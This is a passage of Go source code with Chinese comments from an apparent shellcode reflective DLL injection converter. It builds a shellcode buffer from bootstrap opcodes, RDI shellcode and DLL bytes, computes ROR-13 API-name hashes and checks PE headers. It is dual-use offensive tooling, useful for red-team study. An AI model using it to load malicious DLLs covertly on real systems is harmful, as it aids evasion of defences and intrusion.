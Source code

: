 // add esp, 0x14 - 修正堆栈指针
bootstrap = append(bootstrap, 0x83, 0xc4, 0x14)

// ret - 返回给调用者
bootstrap = append(bootstrap, 0xc3)

shellcodez = append(bootstrap, rdiShellcode32...) // 将 RDI Shellcode 添加到 shellcodez
shellcodez = append(shellcodez, dllBytes...) // 将 dllBytes 添加到 shellcodez
shellcodez = append(shellcodez, userData...) // 将 userData 添加到 shellcodez
// pack是一个类似于Python3中struct.pack的辅助函数，用于将uint32类型的值打包成字节数组
func pack(val uint32) []byte {
    // 创建一个长度为4的字节数组
    bytes := make([]byte, 4)
    // 将val按小端序编码为字节数组
    binary.LittleEndian.PutUint32(bytes, val)
    // 返回字节数组
    return bytes
}

// hashFunctionName函数创建提供的函数名的ROR-13哈希值
func hashFunctionName(name string) uint32 {
    // 将函数名转换为字节数组
    function := []byte(name)
    // 在函数名后追加一个0x00字节
    function = append(function, 0x00)

    // 初始化函数哈希值为0
    functionHash := uint32(0)

    // 遍历函数名的字节数组
    for _, b := range function {
        // 对函数哈希值进行ROR-13操作
        functionHash = ror(functionHash, 13, 32)
        // 将当前字节值加到函数哈希值上
        functionHash += uint32(b)
    }
// 返回函数哈希值
return functionHash
}

// ROR-13 实现
func ror(val uint32, rBits uint32, maxBits uint32) uint32 {
    // 计算 2 的 maxBits 次方减一
    exp := uint32(math.Exp2(float64(maxBits))) - 1
    // 右循环移位操作
    return ((val & exp) >> (rBits % maxBits)) | (val << (maxBits - (rBits % maxBits)) & exp)
}

// is64BitDLL 函数将检查提供的文件的 PE 头部字节，以确定它是否是 64 位应用程序
func is64BitDLL(dllBytes []byte) bool {
    // 定义 IA64 和 AMD64 机器码
    machineIA64 := uint16(512)
    machineAMD64 := uint16(34404)

    // 获取 PE 头部偏移量
    headerOffset := binary.LittleEndian.Uint32(dllBytes[60:64])
    // 获取机器码
    machine := binary.LittleEndian.Uint16(dllBytes[headerOffset+4 : headerOffset+4+2])
